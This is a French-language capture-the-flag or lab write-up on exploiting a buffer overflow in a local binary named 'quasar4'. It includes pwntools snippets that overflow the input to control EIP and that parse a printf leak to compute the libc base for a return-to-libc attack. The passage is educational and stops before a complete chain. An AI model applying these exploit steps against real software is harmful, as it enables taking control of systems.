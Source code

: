 ```python
#!/usr/bin/env python3

from pwn import *

p = process('./quasar4')

raw_input("attach gdb")    # nous laisse le temps d'attacher un debugger au programme

flow = cyclic(100)    # genere un pattern avec une longueur de 100 char

p.sendline(b"1040")    # met id a 1040

p.sendline(flow)    # on envoie en entree notre pattern de 100 char au programme

p.interactive()
```

![](C:\labo\assets\2022-02-27-19-08-39-image.png)

![](C:\labo\assets\2022-02-27-19-11-39-image.png)

Notre programme a crashé et nous pouvons voir que le registre `eip` contient `eaaa`

nous contrôlons donc le cours d'exécution du programme.

Pour trouver combien de caractère il nous faut pour écraser eip j'utilise `cyclic_find`:

![](C:\labo\assets\2022-02-27-19-15-13-image.png)

Maintenant que nous contrôlons eip ou allons à quelle adresse allons nous faire notre programme sauter. La libc contient des fonctions qui nous aident lorsque nous écrivons nos programmes. Par exemple lorsque notre programme fait appel a printf, il va se rendre dans la libc pour exécuter la fonction printf. On peut trouver dans la libc des fonctions comme `system` et `execve,` qui nous serons utiles pour prendre le contrôle de la machine.

Nous pouvons trouver l'offset de ces fonctions avec `readelf -s ./libc.so.6 | grep "system"` :

![](C:\labo\assets\2022-02-27-19-41-13-image.png)

Grâce au leak de la fonction printf présent dans le programme nous pourrons calculer et trouver la vraie adresse des fonctions dans notre libc et de nos gadgets.

```python
p.recvuntil(b"0x")
leak = int(p.recv(8), 16)
log.info(f"leak={hex(leak)}")
```

Le calcul consiste à soustraire le leak de l'offset de la fonction `printf` dans `libc` ce qui nous donnera l'adresse de la base de la `libc`.

 `readelf -s ./libc.so.6 | grep "printf"`

Maintenant il nous suffira d'ajouter à chaque offset de fonction ou de gadget l'adresse de la base de la libc.
